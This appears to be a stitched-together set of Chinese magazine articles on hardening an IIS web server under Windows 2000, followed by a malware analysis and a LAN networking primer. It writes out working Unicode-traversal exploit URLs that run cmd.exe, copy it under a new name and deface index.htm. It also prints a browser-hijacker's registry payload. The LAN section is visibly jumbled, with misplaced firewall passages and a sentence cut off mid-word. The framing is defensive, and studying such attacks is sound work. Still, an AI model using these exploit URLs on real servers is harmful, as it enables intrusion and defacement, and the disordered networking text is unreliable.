请看“Web 站点标识”栏内的 IP 地址，默认情况下这里的值是“（全部未分配）”，因为 Windows 2000 Server 是可以安装多块网卡的，并且每块网卡可以绑定多个 IP 地址。如果你的网站上有多个 IP 地址的话，选中了此项，使用任何一个 IP 都可以访问得到你的 Web 站点。端口默认是 80，这个一般都是不能改变的，因为，如果访问的端口不是 80 的话（如改成 81），访问者必须在站点的地址后边加上端口号才能访问，如：http://192.168.0.1:81。这样会给浏览者带来麻烦，有谁会记住你的端口号呢？

有关个人 Web 服务器的架设就讲到这里，由于版面的拘束，我们不能像教程一样长篇大论，请大家参考专业的书籍。

## 三、庸人爆强：安全设置

### 1、修改站点主目录

其实这一点对于站点的安全性来说是很重要的，至于怎么重要法，看到下一章节描述黑客入侵的时候你就知道了。

> 小刘心里想：算你识趣，帮我守住了菜鸟们的胃口，嘿嘿……

所谓主目录，也就是访问者访问你的网站时，主页所在的目录或者所见的目录；即 Web 文件存放的目录。默认情况下，主页的主目录为 C:\inetpub\wwwroot，这还是被很多有经验的入侵者最注意的地方，因此，你必须将这个目录转移到其他的地方，最好是其他的盘。

你也许会担心哪里该放主目录，哪里不该放，实际上主目录不但可以放在硬盘的任何地方（最好是 NTFS 格式的分区中，虽然这不是必须的，但 NTFS 格式的分区可以设置安全属性啊），而且放在局域网中的其他计算机的共享文件上也可以，甚至还可以映射到网络中的任何 URL 呢。事不宜迟，赶快马上选择“主目录”选项卡，如图 6 所示。

你可以删除 C:\Inetpub\ 下的 wwwroot 目录，然后在一个 NTFS 分区上新建一个 wwwroot，如：F:\wwwroot，将所有的 Web 文件复制到这个目录下，然后在“主目录”选项卡的“本地路径”框内输入路径，或者点击右边的“浏览”按钮找到你的站点主目录，并把 scripts 目录也移动到另外一个盘。这样更改后，就算出了漏洞也很安全。

### 2、主目录的存取权限设置

可以这样说，入侵者能够成功入侵网站，归根结底都是因为黑客取得了足够的权限。这个取得权限的途径可以是通过软件的漏洞，也可以通过管理员的疏忽、破解了弱口令等等。站点肯定要给访问者开放一些权限的，关键是认识这些权限的意义。请各位注意“主目录”标签下的以下几个权限的意思：

- 1. 读取：若选中该项，则允许访问者读取或下载请求的文件；
- 2. 写入：若选中该项，则允许访问者将文件通过软件上传到服务器上，或允许访问者修改文件中的内容；
- 3. 脚本资源访问：当选中“读取”或“写入”权限时，则允许访问者运行相应的资源代码；
- 4. 目录浏览：若选中此项，则当访问者访问的目录中没有默认文档（如 default.asp）时，就显示该目录下的所有文件或文件夹，这是不应该的。

### 3、限制策略

为了保护重要的资料，需要允许或者拒绝特定的计算机、计算机组或域访问你的站点、目录或文件时，IP 地址和域名限制可以帮你办到。

方法：点击“目录安全性”选项卡，如图 7 所示。


图 7

在“IP 地址及域名限制”栏内点击“编辑”按钮，弹出如图 8 所示的窗口。


图 8

这时，你有两个选择：

- a. 拒绝少量用户，选中“授权访问”单选项。

菜鸟：现在要拒绝用户，你还叫我选择“授权访问”？

小刘：你按作者的意思去做就行了，准没错的，因为拒绝的用户是少量，所以，请注意下面的“以下所列除外”几个字。

选中“授权访问”单选项，然后点击“添加”按钮，弹出如图 9 所示的对话框。


图 9

在拒绝类型中有三种选择，分别是：“单机”、“一组计算机”和“域名”，你可以按照你的需要填写（如上图中拒绝的是 192.168.0.2 这台计算机对 Web 服务器的访问），最后点击“确定”按钮。

- b. 授权少量用户，选中“拒绝访问”单选项，即拒绝大量用户。这跟上面的步骤差不多，只是一开始的时候选择“拒绝访问”单选项而已，不再重复。

### 4、站点配置的备份与还原

对站点的各项配置都设置好了之后，万一不小心或者遭受攻击更改了这些设置，将给你带来很大的安全风险。因此，你应该对站点的配置进行备份，一旦遭受了不测或者操作有误，可以还原，这就有效避免了重新进行所有配置花去大量的时间与精力。

方法：在“Internet 信息服务”窗口中，右键点击“计算机”图标，在弹出的快捷菜单中选择“备份/还原配置”项，如图 10 所示。


图 10


图 11


图 12

写上备份文件的名称，点击“确定”按钮即可。要还原备份，只要在“配置备份/还原”窗口中选中相应的备份文件，点击“还原”就可以还原所有的属性配置了。

做了备份之后，如果站点的设置经常改变，就要常常备份，以应付不测。Web 站点建设好后，只要在 IE 浏览器里填上指定的 IP 地址就可以访问到你的主页了，如图 13 所示。


图 13

小刘（给作者捧上一杯热茶，恭恭敬敬地说）：啊，终于到了休息时间，小刘请喝茶。菜鸟们，暂时让大师休息一下，你们慢做眼保健操，准备看本专题的下篇！

## 令你的 Web 服务器更强壮

在前面，我们介绍了个人 Web 服务器的配置与维护，你的个人服务器应该很健康了。但是，再健康的人也难免会生病。我在此给各位同道好友奉劝一条能医治百病的秘方，内容如下：打丁二两，警惕十分，权限少许多，以勤劳为引，在黑蜜药里煎过，再与耐心同饮，病自然就会好，即呵……

> 小刘：大师不愧是大师，连说话都那么中肯，而且富有哲理，实在是令小生佩服。以小生的悟性，这条哲理的意思是说：做管理员要勤劳打补丁，但也不可以过分依赖补丁，还要时时提高警惕性，关心漏洞信息的公布，切勿给用户乱分配过高的权限。要知道，入侵实质上就是一个权限由低到高的提升过程，黑客辛辛苦苦寻找的东西，做网管的又岂能拱手相让？此外，还要常常以黑客的手段入侵自己，发现问题及时解决，在黑道的“锅”里千锤百炼，久而久之，你的系统就会变得很安全。大师，我说得对不对？

作者：你的悟性很高，对极了！

兵书记载：兵来将挡，水来土掩。先摸清对方的攻击方法，然后再做相应的防范工作，这才是真正的用兵之道。下面，给大家介绍 IIS 常见漏洞攻击的原理、测试与防范方法。

## 一、Unicode 漏洞的测试与修补

Unicode 漏洞是很老的漏洞了，本来不想说的，但是在前几天帮一位朋友装个人服务器的时候，顺便测试了一下他的机器，发现他的系统居然还存在着这个漏洞，故在这里提一下。

首先要明白，这是一个 Unicode 解码的漏洞。借助这个漏洞，黑客入侵你的服务器可以做很多事情，更换你的主页只是“小儿科”；聪明的人才会这么做，而有“眼光”的黑客都喜欢做点别的，如：访问文件、种植木马程序、执行程序等等。有人统计，在 2001 年的五一中美黑客大战中，有 70% 都是利用 Unicode 漏洞入侵成功的，可见它的危害，特别是政府机关的服务器。现在我们介绍的 IIS 5.0 版本同样存在这个漏洞。

有关 Unicode 漏洞事实上是这样的：当 IIS 要打开文件时，如果该文件名含有 Unicode 字码，IIS 系统就会对 Unicode 进行解码，但是 IIS 没有过滤某些特殊的 Unicode 字码，导致 IIS 错误地打开或者执行了超过 Web 网站限定目录之外的文件，使得黑客访问到本来不应该访问的数据，或者执行了本来执行不到的命令。

### 1、漏洞测试

有关 Unicode 漏洞的原理与入侵方法已经有很多文章了，我不再多说，这里来谈谈如何徒手发现你的服务器是否存在着 Unicode 漏洞。很简单，打开 IE，在地址栏里输入如下的字符串：`http://127.0.0.1/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir%20c:\`，回车后如果看到 IE 列出整个 C 盘下的文件夹和文件的话，如图 14 所示，就说明你的服务器存在着 Unicode 漏洞。


### 2、漏洞攻击

利用 Unicode 漏洞可以做到很多事情，这里单说比较常见的攻击：更改主页内容。

这是最轻微的攻击行为，实现方法很简单，只要黑客将自己做好的内容覆盖掉网站原来的主页就可以了。最简单的方法就是利用 cmd.exe 里面的 echo 命令来实现，如：`echo "hacked by XXX"`。但是，直接在 IE 浏览器的地址栏里输入 `http://127.0.0.1/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+echo Hacked by XXX > F:\Inetpub\wwwroot\index.htm`，企图让 IIS 服务器执行 cmd.exe 程序和 echo 命令来修改 index.htm 文件却行不通，因为 IIS 服务器发现执行程序名称有 cmd.exe 或 command.com 这类的 shell 名称时，检测到“>”这个特殊字符便不让你执行这个命令。

怎么办？要从本地复制一份 cmd.exe 到目标上去并改变其名称，在 IE 地址栏里输入：`http://127.0.0.1/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+copy+f:\winnt\system32\cmd.exe+f:\Inetpub\scripts\flying.exe`，如图 15 所示。


从上图看到，提示的是错误的信息，但文件已经拷贝到对方的 scripts 目录里了，并且名称已经改成 flying.exe 了，我们打开 scripts 这个虚拟目录来看，如图 16 所示。


由于 IIS 服务器检测到有 cmd.exe 才过滤特殊字符，现在改了名称了，这样就奈何不了啦！这样做的目的是避过 IIS 对通道字符“>”的检测。这时，在 IE 地址栏里输入：`http://127.0.0.1/scripts/flying.exe?/c+echo+hacked by XXX+>F:\Inetpub\wwwroot\index.htm` 就可以了。

至此，黑客已经成功地入侵你的 IIS 服务器，并将你的主页 index.htm 内容改为“hacked by XXX”。

### 3、漏洞解决

（1）我们能够利用 Unicode 漏洞执行 cmd.exe 程序的原因，是因为在 IIS 服务器里，你设置了可以执行权限的“虚拟目录”。前面网址里面的 scripts 目录就是该目录的“使用权限”设置了允许“执行”，所以 IIS 服务器看到 `http://192.168.0.1/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir` 这样的网址时，就会误以为 `..%c1%1c../winnt/system32/cmd.exe` 文件是位于 scripts 目录下的，所以就执行了命令，列出了目录的内容。解决办法就是将虚拟目录的“执行”权限取消。

方法：在 scripts 目录上点击右键，选择“属性”项，如图 17 所示。


在“应用程序设置”栏的“执行许可”框内，默认选中的是“脚本和可执行程序”，表示这些程序都可以运行，如 cmd.exe 等。将其改选为“无”，如图 18 所示。


这样，就不能利用 `http://127.0.0.1/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir%20c:\` 这样的网址来执行 cmd.exe 了，返回的是“网页无法显示”的错误信息，如图 19 所示。


> 菜鸟：我在网上看过有些文章介绍说，只要将 scripts 目录删除，就可以防护 Unicode 漏洞了哦！

> 作者：谁教你的？这是“治标不治本”的方法，写文章的作者根本就不真正理解 Unicode。在 IIS 服务器里，除了 scripts 虚拟目录之外，还有其他的虚拟目录可以入侵的，你不信可以看我用流光扫描的报告，如图 20 所示。


> 菜鸟：如果非要提供执行权限呢？如 cgi-bin 等。

> 作者（沉思了一会）：请往下看！

（2）如果有些目录一定要提供执行权限的话，那就将这些目录和 Windows 2000 的系统分别安装在不同的磁盘内，如：系统在 F 盘，IIS 服务器装在 D 盘，这样就可以了，因为 Unicode 漏洞根本没有办法突破盘符不同的限制。

## 二、泄露真实路径漏洞的测试与修补

对于网络安全来说，能少泄露一分信息，就能多增加一分安全，但是 IIS 服务器偏偏就存在着漏洞，可以让黑客很轻易地搜集到网页所在的路径。它们分别是：`*.idc`、`*.idq`、`*.ida`、`*.idw`。

### 1、漏洞测试

打开 IE，在地址栏里输入 `http://127.0.0.1/flying.idq`，对 IIS 服务器请求这四种不同类型的文件时，如果请求的文件不存在，IIS 服务器就会传回类似“找不到 IDQ 文件 `f:\inetpub\wwwroot\flying.idq`”的错误消息，导致 IIS 服务器不小心泄露了真实路径的内容，如图 21 所示。


从消息中“找不到 IDQ 文件 `f:\inetpub\wwwroot\flying.idq`”的字符串，看到泄露出网站首页真实路径的位置（在这个目录下：`f:\inetpub\wwwroot\`）。对于黑客来说，他要入侵网站换掉你的主页，首先他必须知道首页存储的位置，而这里就给黑客提供了一个很好的搜集信息的渠道。

### 2、漏洞修补

这是 IIS 服务器默认设置的一个失误，因为按照默认的设置，服务器根本不会检查使用者请求的文件是否存在。所以，只要让服务器一开始就检查文件是否存在，问题就解决了。

## 主题乐园

Web 站点中单击右键，选择“属性”，再选择“主目录”选项卡，如图22所示。


图22

点击“应用程序设置”栏内的“配置”按钮，弹出“应用程序配置”窗口，如图23所示。


图23

接着在设置窗口内点击选择扩展名是“.idq”那一栏，然后再点击“编辑”按钮，弹出“添加/编辑应用程序扩展名映射”窗口，如图24所示。


图24

在“检查文件是否存在”项的前面打上勾，再点击“确定”按钮，如图25所示。


图25

这样，当使用者以后再请求一个不存在的“.idq”文件时，IIS 服务器传回“网页无法显示”的错误消息，再不是前面的路径名称了，如图26所示。


图26

这样设置，就可以修补这个漏洞。

## 聚石一招——如何打系统补丁

大家还记得前面我给大家开的一剂治病秘方中，有“补丁二两”这几个字吗？虽然真正的安全不能全部依靠补丁的作用，但是对于一般的用户，补丁却是自己的“救命草”，因为软件的商家最关心自己的漏洞，一有漏洞公布就马上推出补丁程序，有了它，很多问题便迎刃而解，在这里要讲讲如何给系统打补丁。

提醒：补丁包又叫 SP，英文是 Service Pack。

### 第一步：下载补丁程序

大家可以在微软的官方网站上取得最新版 Windows 2000 Service Pack 的安装程序，网址为：http://www.microsoft.com/windows2000/downloads/servicepacks/sp2/default.asp，页面如图27所示。


图27

单击页面里的“Download Windows 2000 SP2”，转到另外一个页面，选择操作系统的语种，这里选择“Chinese (Simplified)”（简体中文），再点击“Go”按钮，如图28所示。


图28

转入下一个页面，点击“SP2 Network Installation”，如图29所示。


图29

将补丁程序下载到本地机器后，执行该文件即可安装，过程非常简单，不再叙述了。

## 附录：解除恶意网页加密代码

flyingfox

注：以下分析过程以 Windows 2000 为例。

### ① 背景

无意中进入这个站点：http://seekmm.6to23.com，没想到这个色情网站会在下次开机后自动把此站点设为首页，如图1所示：

开机后就更改了 IE 主页的默认设置，那就说明它一定在启动项中加载了某些程序。

- 1. 单击【开始】→【运行】，在【打开】的下拉菜单中输入：Regedit，单击【确定】打开注册表编辑器，在注册表中依次打开 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run。

Run 键值下就是 Windows 启动项，这里发现在 Run 键下多了一项：regedit -s c:\win.dll，如图2所示：


图1 默认首页地址被更改


图2 生成的启动键值


图4 显示出隐藏的 Win.dll

**说明：** regedit -s c:\win.dll 这个键值的意思是将 C 盘下的 Win.dll 中的内容写入注册表中。

- 2. 根据注册表中 Run 项下 c:\win.dll 的路径，在进入 C 盘后却找不到 Win.dll 文件，想必是该文件属性是隐藏、系统属性，接下来就是要让系统显示所有隐藏受保护的操作系统文件。这里以 Windows 2000 为例：
  - 单击【开始】→【设置】→【控制面板】→【文件夹选项】。
  - 打开的文件夹选项窗口中选择【查看】选项，在【文件和文件夹】选项中取消选择【隐藏受保护的操作系统文件】的选项，单击【确定】，如图3所示：


图3 取消隐藏受保护的操作系统文件


图5 选择打开的程序


图6 系统警告提示

**注意：** 在 Windows 2000 中，如果文件或文件夹的属性为隐藏、系统属性，在单击【开始】→【设置】→【控制面板】→【文件夹选项】→【查看】→【隐藏文件和文件夹】中选择【显示所有文件和文件夹】时，并不能查看属性为隐藏、系统属性的文件，因此要选择取消【隐藏受保护的操作系统文件】的选项；如果是 Windows 9x 系统，在【文件夹选项】中只要选择【显示所有文件和文件夹】即可。

- 3. 再回到 C 盘下时，便顺利地找到了 Win.dll 文件，如图4所示。
- 4. 接下来要来分析一下 Win.dll 中的内容，右键单击 Win.dll，在弹出的快捷菜单中选择【打开方式】→【选择程序】，如图5所示。
- 5. 在选用【选择程序】打开该文件时，系统会提示会破坏系统，此时不要理会它，单击【打开方式】，如图6所示。
- 6. 在打开方式中选择用“记事本”打开 Win.dll 文件，单击【确定】，如图7所示。


图7 选用记事本程序

- 7. 通过记事本打开 Win.dll 后，其中内容如下：

```text
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main]
"Start Page"="http://seekmm.6to23.com"
"First Home Page"="http://www.belover.powerdns.org"
"Default_Search_URL"="http://seekmm.6to23.com"
"Search Page"="http://seekmm.6to23.com"
"Search Bar"="http://seekmm.6to23.com"
"SearchURL"="http://seekmm.6to23.com"
[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer]
"SearchURL"="http://seekmm.6to23.com"
[HKEY_USERS\.Default\Software\Microsoft\Internet Explorer]
"SearchURL"="http://seekmm.6to23.com"
[HKEY_USERS\.Default\Software\Microsoft\Internet Explorer\Main]
"Search Page"="http://seekmm.6to23.com"
"Default_Search_URL"="http://seekmm.6to23.com"
"Search Bar"="http://seekmm.6to23.com"
[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Search]
"SearchAssistant"="http://seekmm.6to23.com"
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Search]
"SearchAssistant"="http://seekmm.6to23.com"
[HKEY_USERS\.Default\Software\Microsoft\Internet Explorer\Search]
"SearchAssistant"="http://seekmm.6to23.com"
```

- 8. 第7步就是修改注册表的代码。通过上面的分析说明，每次计算机开机时 Win.dll 都会写入注册表。接下来看一看 Win.dll 是如何下载到本地的。打开 http://seekmm.6to23.com 网站，在浏览器窗口中单击【查看】→【源文件】，发现一段加密后的代码，如图8所示：


接下来我们就要对这段加密代码进行解密。

### ◎ 解密

- 1. 从图8的加密代码中可以看到这一句：`<script language=JScript.Encode>`，可以得知采用了 Screnc.exe 加密（微软为了保护开发出的 ASP 源代码，提供的一个加密脚本的程序：SCRENC.EXE，可以对 ASP 源代码进行加密）。那如何来对图8中所示的代码进行解密呢？通过在网上查询，找到一个相关的解密软件 Zwdecode.exe。接下来将加密后的代码复制到一个记事本中，保存为 aaa.txt，然后在命令提示符下运行 Zwdecode.exe 进行解密，格式为：

```text
Zwdecode.exe 加密文件 解密后的文件

例如将加密文件 aaa.txt 另存为解密后的 bbb.txt，在命令提示符下运行如下格式：

Zwdecode.exe aaa.txt bbb.txt
```

- 2. 打开 bbb.txt 文件，发现该代码还在加密，如图9所示。


- 3. 看到二次加密的代码后，根据其原理就编写了一个还解程序（由于篇幅所限，对编写的这个还解程序不做过多介绍，具体请查看 http://www.54hack.com/54hack.htm），顺利解出源程序，如图10所示：


- 4. 分析其源程序可知，首先它在注册表的启动项写入：`regedit -s c:\win.dll`，其意思就是当计算机开机时自动将 C 盘 win.dll 中的注册表键值写入注册表；接下来就是将恶意代码生成 win.dll 文件，并将其属性设为隐藏、系统。

### ◎ 清除与防护

- 1. 运行注册表编辑器，在 Run 键值下，将键值数据为：`regedit -s c:\win.dll` 的项删除（如图2所示），并将 C 盘下的 win.dll 删除即可。
- 2. 如果为了永远地防止恶意代码对系统的破坏，可以修改注册表来增强免疫力。运行注册表编辑器，找到以下键值：`HKEY_CLASSES_ROOT\CLSID\{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}`，删除 `{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}` 注册项即可。

## 局域网不完全小手册

## 一、局域网原理篇

### 1.1 局域网的定义

局域网（LAN）是网络的一种表现形式，它是一种不同于广域网和城域网的技术。对于局域网，我们可以这样定义：局域网（LAN，Local Area Network）是分布在有限距离内的网络。有限距离则通常是指在一个办公室之间、一幢大楼内、一组紧邻的楼群之间，或是一个企业的范围内，距离一般在几百米到十几公里的范围左右。

硬件防火墙，也就是说防火墙是一个设备，是一个硬件，是一个专门用来防御网络入侵或是攻击的硬件。

对于防火墙来说，它只能做两种判断，那就是拒绝和通过。凡是不符合防火墙制定的规则的数据包都是“拒绝”，只要符合的话，那么就是“通过”。因此，可以看出，防火墙的好坏不但取决于本身，而且还取决于防火墙规则的制定。如果制定了严格的防火墙规则的话，那么完全可以做到如铜墙铁壁一般。

举例说明一下，大家一定碰到过在 Ping 某个 IP 或是域名的时候返回“Request timed out”，这种情况一般可以判断对方使用了防火墙，并在防火墙规则里指定了丢弃所有的 ICMP echo 数据包（echo 数据包就是用来返回 Ping 信息的）。

大家也许会对我所说的“防火墙规则”有些疑惑，因为这样直接听起来比较抽象，难以理解，所以我们就以瑞星个人防火墙的“防火墙规则”为例，向大家做一个介绍。

首先打开防火墙，会看到有一个“规则”按钮，如图2所示，点开之后，会出现如图3所示的界面。大家可以很清楚地看到，这里有一项规则为“允许的 ICMP 出站”的设置，在这里，该规则的方向设置为“双向”，协议为“ICMP”，操作为“禁止”。


那么这就是说，无论是出站还是入站的，也就是进出该主机的所有 ICMP 协议包都会被禁止，也就是被过滤掉。

通过对个人防火墙的设置，大家应该对防火墙规则有所了解了。大型的软件或是硬件防火墙的设置方法和个人防火墙的设置方法有所不同，但最终原理还是一样的。

防火墙我们就介绍到这里了，我们继续讲解下一个设备。Router，路由器（Router）在大多数网络中也是必要的，不过还是有少数的网络并没有安装路由器。在图1中放置路由器的作用一般是过滤一些数据包以减少防火墙的负担，所以这里放置的就是一个包过滤型的路由器。

简单介绍一下路由器的工作原理和工作流程：

> 大家应该已经熟悉了 OSI 七层模型了吧？通过 OSI 的分层介绍，大家可以知道，Internet 层是负责对某些 IP 地址进行转发数据包的，而路由器呢，就是工作在 Internet 层的，所以路由器的作用显而易见，它也是负责转发数据的。路由器的常见之处就是连接不同的网段。

在这里，先给大家澄清一下“网段”这个概念。大家都应该听人说过，某机和某机不在同一网段，不能直接互相访问的这类话吧？你是不是对此有些模糊？

这里，我们简单地举例说明。两台主机 IP 和子网掩码分别为 192.168.0.1/255.255.255.0 和 192.168.1.1/255.255.255.0（在“/”前的是 IP 地址，后面的是子网掩码），大家可以把 IP 地址和子网掩码这样来看：

```text
192.168.000.1    192.168.001.1
255.255.255.0    255.255.255.0
```

大家可以比较一下，每个点“.”前的三位为一个单位，让 IP 地址和子网掩码进行比较，凡是被 255 掩住的部分就为“网络 ID”，其余部分为“主机 ID”。这样的话，这两台主机的网络 ID 就分别为 192.168.0.0 和 192.168.1.0。大家也许会有疑问，按我说的方法网络 ID 应该是 192.168.0 和 192.168.1 啊，可是却多了一个“0”，这是因为网络 ID 的表示方法的问题，人家就是这么规定的，表示网络 ID 的时候把主机 ID 部分置为“0”来表示，于是就有了上面我说的 192.168.0.0 和 192.168.1.0 了。

搞懂了网络 ID 和主机 ID 后，就很容易明白网段了。简单来说，只要是网络 ID 相同的两台主机，那么它们就在同一个网段内，那么就可以在不需要任何设备的情况下直接进行访问了。以上例来看，两台主机的网络 ID 是不同的，所以必须要经过路由器才可以。

> 大家还应该遇到过子网掩码不为 255 的情况，例如：255.255.254.0。因为篇幅有限，这些情况就不在这里说明了，相类似的情况并不多。大家可以自己去查查。另外，在子网掩码不全为 255 的时候，计算网络 ID 和主机 ID 就需要转化成二进制才能准确计算了。

好，回到正题，继续讲解路由器。就像上面说的一样，路由器最基本的用处就是连接不同网段的机器。而连接不同网段机器的实现方法，就是依据路由器中一个被称为路由表的东西。路由表中会记录着哪一台主机在哪一个网段里，而与这个网段相连接的路由器接口又是哪一个。这样的话，当一个数据发送到路由器后，路由器会根据路由表判断该从它的哪一个接口发送数据包到那个指定的网段内去。

路由表又分为静态和动态两种。静态路由表是固定的，不会改变的（除非人为手动添加内容进去），而动态的则是会自动学习的；如果你在路由器的某一个接口上连接了一个新的网段的话，那么很快，动态路由表里就会有如何转发数据到这个新网段内的新信息了。

好了，路由器就简单地介绍到这里。

怎么样？大概已经了解一些关于局域网接入 Internet 方面的知识了吧？

好，接下来我们将进入局域网的内部……

### 1.2 LAN 接入 Internet 模型

我想大家对于局域网应该非常熟悉了，像网吧、学校、企业内，绝大部分都是使用局域网接入 Internet 的。可是，无论局域网的范围怎么大，形式怎么变，它与外部 Internet 的连接方式都不会变的，如图1所示：


小弟不才，目前只知道有这种形式的模型，至今还没见过与该模型相差太远的其他接入模型。下面我就给大家详述一下图1中所示的三个设备的作用。

GateWay：大家可以很清楚地看到，局域网（LAN）会先通过一个叫做网关（GateWay）的东西。这个家伙的作用很重要，它的重要功能之一即“翻译”，也就是说，网关是用来连接两种不同类型的网络。它在两种不同类型网络之间起到了一个“翻译”的作用，如现在大部分局域网都采用了 IEEE 802.3（以太网）标准，可是外部的 Internet 不认识这种标准的局域网数据包，所以“网关”来给翻译一下，这样才能顺利地把数据送到 Internet 上。也许大家注意到了，网关被设置到防火墙的后面，这是为了让网关受到保护。

大家应该都清楚，如果网关直接暴露在外面的话，那是非常危险的；网关一旦被人侵入了，后果不堪设想。因为网关是整个局域网的唯一出口，如果被黑客控制住了，那么想进一步入侵局域网就是非常容易的事了。

FireWall：这个大家都应该认识了。大家在入侵的时候想必都应该碰到过这个讨厌的家伙。正因为大家经常碰到，所以有必要介绍一下了。

防火墙从实现上说，可以大致分为两类：

- 1 类：软件防火墙
- 2 类：硬件防火墙

软件防火墙和大家平时用的个人版防火墙差别不大，只是商业的软件防火墙功能要更强一些。

### 1.3 LAN 的内部连接模型

LAN 的内部模型就比较多了，因为网络分为几种不同的拓扑结构，所以组建局域网的时候就可以有多种选择，我们完全可以根据要求来进行组建。这里我们就以常见的星型拓扑来举例说明，因为这种结构也是局域网中用得最多的一种连接方式。图4是一个星型拓扑模型：


从图4可以看出，在一个大的局域网内实际上还可以被划分出多个小的局域网，每个小的局域网可以属于同一个网段，而这些小的局域网又被一个称作“中央节点”的设备（一般由路由器或是交换机来充当这个设备）连接起来。当然，这里的 LAN1、LAN2、LAN3、LAN4 也可以换成是计算机。不过如果是几台计算机像这样进行简单互联的话，就没有必要再动用路由器或是交换机这样的设备了，用一台 HUB（集线器）就完全可以搞定。

### 1.4 LAN 中两个重要传输机制

局域网的大概结构我们已经搞清楚了，接下来说说局域网内数据传输的问题。

局域网最大的特点就是：高速且错误率低。当然，这必须得通过一些机制来保证这个特点，在这里我就为大家讲解一下两种常见的机制：CSMA/CD 和令牌。

这两种机制都是用来保证数据在局域网内按一定顺序准确地进行传输的。首先，先来谈谈 CSMA/CD（载波监听多路存取和冲突检测）。不知道大家有没有过这种疑问：局域网内那么多台机器，而接入 Internet 的网线却只有一根。那么，如果多台机器在同一时刻都想要向 Internet 发送数据包的话，那么岂不是产生冲突了？确实如此，如果没有 CSMA/CD 的话，局域网内就有可能会产生上述情况。

> CSMA/CD 的工作过程是这样的：假设 A 机要向网上发送一个数据包，那么 A 机会先发送一个数据，来试探它想要使用的线路是否忙。我们再假设，在 A 机发送出数据包进行试探的同时，正好 B 机占用线路，那么就会有信息返回给 A 机，告诉它现在线路忙。那么 A 机会等待一段时间后再进行试探，直到发现线路空闲的时候，才会发送真正的数据。们发送的数据包会相遇，并且分别向 A、B 机返回信息告诉它们：现在线路忙。到这里大家是不是会想，如果 A、B 两台计算机都等待了 n 秒后又进行重发，那么它们的数据包岂不是又要相遇，而又分别向两台机器报告线路忙了？这样一来不是谁都别想发送数据了吗？大家可以放心，不会有这种情况发生的，因为当计算机收到线路忙的信息后所等待的时间是随机的，而并不是一个固定的时间，所以很少会有 A 和 B 两台机器所等待的时间是一样的情况，几率很小的。这下大家清楚了吧！

OK！关于 CSMA/CD 就讲这么多了，如果大家感兴趣的话，可以查看一下相关的资料，进一步丰富这方面的知识。

下面，要讲的就是令牌了，说到令牌，我们有必要先介绍一下令牌环网（Token Ring），因为令牌环网就是使用了令牌这种机制。

首先给大家介绍一下令牌环网的模型，如图 5 所示：


图 5　令牌环网模型

从图 5 中大家可以很容易看出来，令牌环网就是从中间一个环状的线路中连接出 N 根网线，这些网线上连接着计算机，这样就形成了一个节点。这种网络有一个很大的优点，就是如果某一台计算机瘫痪的话，并不会影响到其他计算机之间相互的数据传输。

我来介绍一下令牌的工作机制。

首先，在中间的那个环状线路中，会有一个特殊的数据包，准确地说，是不应该称之为数据包的，在令牌环网中，我们称其为“帧”。这个帧就被称做“令牌”，会有一个工作站先启动并发送这个令牌到中间的环状线路中，然后这个令牌在中间不停地绕啊绕、绕网线……当某台机器想要发送数据的时候，会把要发送的数据帧附在这个令牌的尾部。不过，需要注意的一点就是，只有当令牌被传送到该机上的时候，并且保证令牌上没有其他机器所附上的数据帧，这样才可以使用令牌，否则是无法使用的。

在某台机器使用令牌期间，它会在令牌上设置一个位，这个位上的信息可以告诉其他的机器，该令牌正在使用中，如果想用的话——“靠边站，等我用先”，等这台机器用完后，便会撤销该位，其他机器才能使用。

> 注意：还有一点是——在令牌环网中发送数据是有固定的顺序进行传送的，不能因为传输速度慢而跳跃发送。

以上便是两种常见的传输机制，不过在这里，我要提醒朋友们一下，“令牌环网”和“CSMA/CD”这两种传输机制并不属于同一标准的网络。我之所以把它们放在一起讲，是因为这两种机制比较重要，而且比较常见。

## 主题乐园

> 注意：在 IEEE 规定的标准中，“CSMA/CD”总线媒体访问控制子层与物理层规范是属于 IEEE 802.3 标准的（IEEE 802.3 标准现在被广泛地认为是以太网标准），不过在规范中该标准所定义的数据包结构和以太网数据包结构还是有所不同的；而“令牌环（Token Ring）”媒体访问控制子层与物理层规范则是 IEEE 802.5 标准。

这里，我来简单介绍一下 IEEE 802.3 和 802.5 标准。IEEE 是世界上最大的科学技术学会，是电气与电子工程学界最有影响的学术团体。我在文中提到的 IEEE 802.3 和 802.5 标准就是该技术学会提出的标准。

起初，以太网是由 Xerox 公司开发出来的，它采用带冲突检测的载波监听多路访问协议（CSMA/CD），而 IEEE 802.3 标准是在最初的以太网技术基础上于 1980 年开发成功的。现在，以太网一词泛指所有采用 CSMA/CD 协议的局域网。可以说，是等同于 IEEE 802.3 的一种规范了。

IEEE 802.5 则定义了令牌环（Token Ring）媒体访问控制子层与物理层的规范。

> 注意：IEEE 802.5 可以说是一种协议，也是一种规范或者标准。它定义了 Token Ring，所以说，提到 IEEE 802.5 的时候，并不是特定地指某一种网络，而是指一类符合这种规范或是采用了这个协议的网络。例如：FDDI。

### 1.5 另类局域网——VLAN

VLAN 产生的背景：传统的局域网中，各站点共享传输信道所造成的信道冲突和广播风暴是影响网络性能的重要因素。为了解决“信道冲突”和“广播风暴”问题，网桥和路由器被广泛应用于局域网中。由网桥连接的网络属于同一逻辑子网，逻辑子网是指该网络中的网络站点具有相同的网络层地址，例如：具有相同的 IP 网络号或者 IPX 网络号。由路由器将不同逻辑子网连接在一起，逻辑子网间的通信必须经路由器进行。

#### 信道冲突

其实理解它很简单，我们可以简单地把传输介质（也就是网线了，不过现在也有无线网络，那么空气就是传输介质）中用来传输数据的部分看作是信道。

举例说明，把一座独木桥比作一条信道，这座独木桥（信道）每次只允许一个人（数据）从一头到另一头，而如果同时有两个人（数据）行走，将引起冲突，这就是所谓的“信道冲突”了。

#### 广播风暴

关于广播大家应该不陌生吧？在同一个网段内，某一台主机发送一个广播数据包，那么这个数据包会被复制 n 份到每台活动主机上，主机判断该数据包是否应该由它接受，是的话，就留下处理，如果不是的话，就置之不理。

